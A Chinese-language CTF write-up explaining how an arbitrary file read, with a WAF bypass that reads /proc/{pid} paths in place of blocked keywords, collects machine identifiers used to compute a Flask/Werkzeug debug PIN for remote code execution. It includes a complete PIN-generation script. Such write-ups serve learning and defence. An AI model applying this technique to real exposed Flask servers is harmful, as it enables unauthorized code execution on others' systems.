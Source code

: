 tags:: [[CTF/Flask/Debug模式RCE]]

- # 思路
	- 利用文件读取漏洞，计算flask debug pin实现RCE
	- 参考[[CTF/Flask/Debug模式RCE]]
- # WAF下的任意文件读取
  id:: 63e792d2-442c-473d-ada6-0a35a1cb5b57
	- `/view?filename=xxx`可以读取任意文件，但是waf禁止`flag`,`self`和`cgroup`这三个关键字
- # 数据收集
	- 不带参数访问`/view`，进入错误界面，看到模块地址为`/usr/local/lib/python3.8/site-packages/flask/app.py`
	- 利用 ((63e792d2-442c-473d-ada6-0a35a1cb5b57))
		- 爆破`/proc/{i}/environ`可知可以读取pid为14,17,19的环境
		- 读取`/proc/14/environ`可知用户名为`app`
		- 读取`/proc/14/cpuset`可知某个控制组为`/docker/dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3`
		- 读取`/sys/class/net/eth0/address`可知mac地址为`02:42:ac:02:05:32`
	- 最终收集到的数据如下，满足计算pin的条件
		- ```python
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  ```
- # 生成PIN
	- 脚本如下
		- ```python
		  import hashlib
		  from itertools import chain
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',# str(uuid.getnode()),  /sys/class/net/ens33/address
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  # If we need to generate a pin we salt it a bit more so that we don't
		  # end up with the same value and generate out 9 digits
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  # Format the pincode in groups of digits for easier remembering if
		  # we don't have a result yet.
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  ```
	- 使用生成的PIN控制flask后台即可
-